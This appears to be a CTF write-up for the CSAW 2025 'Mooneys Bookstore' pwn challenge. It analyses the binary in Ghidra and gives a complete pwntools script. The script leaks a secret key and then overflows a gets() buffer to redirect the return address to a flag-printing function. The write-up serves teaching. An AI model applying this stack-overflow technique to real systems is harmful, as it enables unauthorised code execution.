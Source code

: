 ```yaml
---
title: "CSAW CTF Quals' 2025: Mooneys Bookstore"
permalink: /csaw-ctf-quals-2025
---
```


# Mooneys Bookstore
We are given a pwn challenge binary, `overflow_me`.

First, we look at the file's info with `file overflow_me` and see we are working with an x86-64 ELF file that hasn't been stripped:
```
overflow_me: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d6a8fb91df07f04d257b59b8230f6ddb1d8507e, for GNU/Linux 3.2.0, not stripped
```

Then, we check the security mechanisms in place with `checksec overflow_me` and see there is no canary and that the stack is not executable:
```
[*] '/Users/lomichael/ctf/csaw2025/mooneys-bookstore/overflow_me'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Running the binary (`./overflow_me`), we see the printout below, prompting us for an address:
```
Mooney's. The bell above the door cries out, and suddenly... it's you. Of course it's you.
Every shelf bends toward you, every page waits to be touched by you.
You think you're just here to buy a book. But I know better.
You came here to be seen. By me.

Your favorite book waits for you. Tell me its address

```

Since we do not know what address to provide, we analyze the binary in Ghidra to see what is going on.

The main function decompiled by Ghidra looks like:
```C
undefined8 main(void)

{
  FILE *ctx;
  long local_18;
  undefined8 *local_10;
  
  setvbuf(stdout,(char *)0x0,2,0);
  ctx = stdin;
  setvbuf(stdin,(char *)0x0,2,0);
  init((EVP_PKEY_CTX *)ctx);
  puts(&DAT_00402018);
  puts("\nYour favorite book waits for you. Tell me its address");
  read(0,&local_10,8);
  printf("%lx\n",*local_10);
  puts("\nOf course there\'s a key. There always is. If you speak it, the story unlocks");
  read(0,&local_18,8);
  if (local_18 == secret_key) {
    get_input();
  }
  else {
    puts(&DAT_004021b0);
  }
  return 0;
}
```

In the decompiled code above, we can see that if we successfully provide the `secret_key`, the `get_input()` function will be called. Conveniently, the code dumps the value at an address for us, in the lines:
```C
puts("\nYour favorite book waits for you. Tell me its address");
read(0,&local_10,8);
printf("%lx\n",*local_10);
```
We can use this to get the value of the address labeled `secret_key` (i.e. 0x004040b8) and thus pass the check to call `get_input()`.

Inspecting the `get_input()` function in Ghidra, we see:
```C
void get_input(void)

{
  char local_58 [64];
  long local_18;
  FILE *local_10;
  
  local_10 = fopen("/dev/urandom","rb");
  if (local_10 == (FILE *)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fread(&val,8,1,local_10);
  fclose(local_10);
  local_18 = val;
  printf("\n\tA post-it on the floor. You would have stepped over it. I didn\'t. It has something fo r you: 0x%lx\n"
         ,val);
  puts("\nYour turn now. Write yourself into this story.");
  fflush(stdout);
  gets(local_58);
  if (local_18 != val) {
    puts("\nDisappointing. But that\'s you, isn\'t it? Messy. Human. And I stay anyway.");
    fflush(stdout);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  return;
}
```

Immediately, notice the line `gets(local_58)`, which is a common vulnerability, allowing unbounded input. Abusing this, we can overflow the buffer `local_58`, writing into other parts of the stack. There is no obvious way to get the flag in the decompiled `get_input()` function, but we know that write into the return address using the stack buffer overflow. We can look in the "Functions" section of the Symbol Tree in Ghidra and see a `get_flag()` function that cats the flag for us:
```C

void get_flag(void)

{
  fflush(stdout);
  system("cat flag.txt");
  fflush(stdout);
                    /* WARNING: Subroutine does not return */
  _exit(0);
}
```
If we place the address of this `get_flag()` function (i.e. 0x00401425) as the return address for the current stack frame, we can hijack the control flow to end up in `get_flag()`.

Before we do this, however, we must be cautious, since `get_input()` does a comparison with the `val` variable. If this check fails, the function exits prematurely, not returning the control flow to the `get_flag()` function. So, we must ensure that the value on the "post-it" printed by the program is inserted in the proper local (`local_18`) on the stack, so the check can pass.

So, our plan of attack now looks like:
- Send the address labeled `secret_key` to get its value
- Send the `secret_key` value to call `get_input()`
- Place `val` in `local_18` to avoid a premature exit()
- Place address of `get_flag()` into the ret address and return

Putting it together in a pwntools script we then get:
```Python
from pwn import *

p = remote("chals.ctf.csaw.io", 21006)

p.recvuntil(b"Tell me its address")
p.send(p64(0x4040b8)) # send address of secret_key to get its value

throwaway = p.recvline().strip()
line = p.recvline().strip()
secret_key = int(line, 16)

p.send(p64(secret_key)) # send secret_key to pass check before call get_input()

while b'0x' not in line:
    line = p.recvline().strip()

val = int(line.split(b'0x')[1], 16) # parse the output to get val

payload = b'\x00' * 0x40 # pad the stack until local_18
payload += p64(val) # set local_18 to val
payload += b'\x00' * 0x10 # pad stack to ret address
payload += p64(0x401425) # set the ret address to get_flag

p.sendline(payload)

p.interactive()
```

Some explanations for the math behind the payload numbers:
- `gets(local_58)` writes into a 64-byte buffer at ebp-0x58
- writing 0x40 null bytes starting at ebp-0x58 lands us at ebp-0x18 which is the start of `local_18`
- after we write the 8-byte `val` into `local_18` at ebp-0x18 we are then writing at ebp-0x10
- writing 0x10 more null bytes lands us at the point where we can overwrite the return address 
